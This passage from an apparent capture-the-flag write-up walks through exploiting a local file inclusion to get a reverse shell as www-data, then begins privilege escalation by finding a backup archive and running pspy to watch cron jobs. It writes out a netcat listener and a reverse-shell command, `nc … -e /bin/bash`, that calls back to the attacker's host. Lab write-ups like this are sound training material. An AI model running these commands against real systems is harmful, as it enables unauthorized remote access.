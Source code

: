 > ![](https://i.imgur.com/ZZYRd1N.png)

Now i start a netcat listener on port "4444" with the command `nc -nvlp 4444`.

And now, i use wget to exploit the LFI again, and run the command `nc 172.30.0.14 4444 -e /bin/bash` to get back a reverse shell.

> ![](https://i.imgur.com/MOsVPA7.png)

And i get a shell as www-data.

> ![](https://i.imgur.com/rbWV6Ex.png)

## Privilege Escalation<a name="PrivEsc"></a>

### Enumeration<a name="PrivEscEnum"></a>

First i looked if i can access to the user home directory, and unfortunately i cannot. So i need to escalate to "git" user.

Enumerating the "/var/www/html" folder and i didn't see anything useful excepted a new directory, which containt a file named "backup.zip".

> ![](https://i.imgur.com/sG8qqJ8.png)

So i started a python SimpleHTTPServer module to host the backup and download it into my kali.

> Yes, i can download it directly through my browser, dunno what i've do that.

> ![](https://i.imgur.com/EZvSP6W.png)

Now i've downloaded the "backup.zip", i extracted it content, and see something interesting, it containt my malicious PNG "blog_html.png".

> ![](https://i.imgur.com/2HedVes.png)

So from here i was thinking there is a cron which create that backup file every few minutes.

Now i wanna use the tool called "pspy" to examine more those cron task, first i need to know the target architecture, to know which version of pspy take (32 or 64 bits).

> ![](https://i.imgur.com/1CaOdZg.png)

It's a 64 bits architecture.

I downloaded ["pspy64"](https://github.com/DominicBreuker/pspy/releases) and uploaded it into the target system, by using python SimpleHTTPServer module and wget.

> ![](https://i.imgur.com/Jib3Y37.png)


Giving the execution right to "pspy" with `chmod +x` and run it.

> ![](https://i.imgur.com/MB5IxJk.png)


Now i can see the cron task executed which use the library "backup", after some research on google, i didn't find this library, so i think it's a custom one.

> ![](https://i.imgur.com/0lDg3tV.png)

